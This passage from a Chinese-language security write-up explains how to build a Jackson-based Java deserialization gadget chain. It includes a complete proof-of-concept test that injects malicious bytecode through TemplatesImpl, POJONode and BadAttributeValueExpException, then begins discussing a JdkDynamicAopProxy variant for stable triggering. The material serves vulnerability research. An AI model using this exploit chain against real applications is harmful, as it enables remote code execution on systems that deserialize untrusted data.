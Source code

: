 ### 5.3 PoC 不稳定构造

1. `readObject()` 中会触发 `toString()` 的，可以想到 CC5 中的 `BadAttributeValueExpException`，又或者是 XBean 链中的 `HashMap + XString + HotSwappableTargetSource`。这里就先用最简单的 `BadAttributeValueExpException`。PoC 如下：

    ```java
    // 使用了 javassist 辅助构造
    @Test
    public void testJacksonChain() throws Exception{
        // 1. 构造 sink
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("com.endlessshw.jacksonrange.util.Evil");
        byte[] bytes = ctClass.toBytecode();
        TemplatesImpl templates = new TemplatesImpl();
        // 要求 1 - 注入恶意字节码
        Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates, new byte[][]{bytes});
        // 要求 2 - 保证 _name 不为 null
        Field nameField = templates.getClass().getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "EndlessShw");
    
        // 2. 移除掉 BaseJsonNode 的 writeReplace 方法，防止序列化失败
        CtClass baseJNctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = baseJNctClass.getDeclaredMethod("writeReplace");
        baseJNctClass.removeMethod(writeReplace);
        baseJNctClass.toClass();
    
        // 3. 构造 chain
        POJONode jsonNodes = new POJONode(templates);
    
        // 4. 构造 kick-off
        BadAttributeValueExpException toBeSerBAVEException = new BadAttributeValueExpException("123");
        Field valField = toBeSerBAVEException.getClass().getDeclaredField("val");
        valField.setAccessible(true);
        valField.set(toBeSerBAVEException, jsonNodes);
    
        String serialize = SerializeUtil.serialize(toBeSerBAVEException);
        SerializeUtil.unSerialize(serialize);
    }
    ```

2. 在 Rome 链中提到，触发 `TemplatesImpl` 的所有 getter 时会触发 `TemplatesImpl#getStylesheetDOM()`，会导致空指针报错。所以得想个能稳定不报错的方式。

### 5.4 引入代理来保证稳定触发

1. Rome 中的 `ToStringBean` 底层还是调用了反射，那么想到反射，就会想到代理（毕竟动态代理触发方法也是通过反射），那么现在就需要找到一个 `InvocationHandler`，它的 `invoke` 就直接触发被代理对象的方法即可。然后代理对象只需要代理接口 `Templates` 就行。
2. 自己试了找一下，继承 `InvocationHandler` 和 `Serializable`，同时 `invoke` 还要尽量调用 `method.invoke()` 的，暂时没找到，就先看别人已经找到的 `JdkDynamicAopProxy` 吧。
3. 先来看他 `invoke` 中触发反射调用的方法：